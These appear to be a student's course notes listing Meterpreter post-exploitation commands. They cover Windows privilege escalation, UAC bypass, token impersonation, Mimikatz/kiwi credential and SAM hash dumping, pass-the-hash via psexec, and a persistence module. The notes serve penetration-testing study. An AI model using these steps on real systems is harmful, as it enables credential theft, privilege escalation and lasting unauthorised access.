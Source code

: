 
*Meterpreter*     
**help** to see all commands        
**sysinfo** to get informations about the OS version        
**getuid** to know our permissions
**background** the session (or CTRL+Z)      
**sessions** list all sessions
**sessions -h** for help        
**download [filename]** to get the file on your current directory       
**search -f *.php** to search for .php extension file       
**ps** then **migrate [process id]** but you have to get the permissions to do this     

Often in the course, we have the use of **/post/multi/manage/shell_to_meterpreter**     
You just need to ctrl+Z to background the session       
**session -u [session number]** upgrade it (not always possible)

*Windows Post Exploitation*      

**getsystem** attempt to elevate your privilege     
**show_mount** to see all mounts/drives     
on post/windows we saw      
**/gather/win_privs** gather privilege of the current user      
**/gather/enum_logged_on_users**        
**/gather/enum_applications** enumeration of applications, may be you can use them to escalate privilege        
**/gather/enum_av_excluded** interesting in some cases (don’t seems to be too in depth during the course)       
**/gather/enum_computers** Windows gather enumerates computer       
**/gather/enum_shares** enumerate SMB shares        

bypassing UAC       
you’ll need to have a x64 reverse shell     
**/exploit/windows/bypassuac_injection**        
set TARGET Windows\ x64 if there is an error regarding the injection        
then you can use getsystem command for privilege escalation     

token impersonation with incognito      
On the account we need specific setup ; **SeAssignPrimaryToken**, **SeCreateToken**, **SeImpersonatePrivilege** (you check with getprivs command)   
**load incognito**      
**list_tokens -u** to see the possibilities     
**impersonate “[the result you got earlier]”** (it has to be between “”)        

dumping hashes with Mimikatz        
**load kiwi**       
in the help of metrepreter at the end you’ll have the kiwi commands
**creds_all**       
**lsa_dump_sam** (you can find other users hashes here compare to the first command)        
**lsa_dump_secrets**        

pass-the-hash with PSExec       
Once you have hashes you’ll use psexec      
**/exploit/windows /smb /psexec**       
**set SMBUser [user]**      
**set SMBPass [hash or cleartext password]**        
**/exploit /windows/local /persistence_service**        
